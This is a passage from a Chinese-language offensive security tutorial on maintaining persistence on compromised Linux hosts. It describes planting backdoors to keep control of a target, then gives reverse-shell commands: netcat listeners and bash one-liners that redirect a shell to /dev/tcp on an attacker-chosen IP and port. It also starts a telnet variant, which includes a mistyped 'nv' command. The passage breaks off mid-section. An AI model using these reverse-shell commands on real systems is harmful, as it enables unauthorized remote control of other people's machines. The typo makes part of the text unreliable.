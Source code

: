 # Linux下的权限维持


# 权限维持 -- Linux

## 一、Basic Knowledge

### 1. 概念

可以简单理解为通过隐藏手段或在目标上安装后门以保持已获取的权限不会被打掉，一直控制目标，属于后渗透阶段的重点内容。

### 2. 前置条件 -- 获取初始权限

获取初始权限。最常见也是个人最喜欢的是反弹shell回来，方便后续操作。这里简单总结下反弹shell的常见手法：

#### 1. Bash反弹

攻击机监听：

```bash
nc -lvvp port
```

目标执行：

```bash
bash -i >& /dev/tcp/x.x.x.x/port 0>&1

```

或者

```bash
bash -i 5<>/dev/tcp/host/port 0>&5 1>&5
```

- `bash -i`：打开一个交互的bash
- `>& /dev/tcp/x.x.x.x/port`：调用socket建立链接，x.x.x.x为要接收shell的主机ip，port为端口，将标准错误和标准输出重定向到socket连接文件。
- `0>&1`：标准输入重定向到标准输出，此时标准输出指向socket连接，从而实现了与反弹shell的交互。

第二种则是将标准输入、输出和错误均重定向到socket连接文件。

**备注：Linux不同发行版之间存在差异，某些命令可能并不适用，可自行调整。**

#### 2. telnet反弹

第一种：

攻击机开2个终端，分别执行监听：

```bash
nc -lv port1
```

和

```bash
nv -lv port2
```
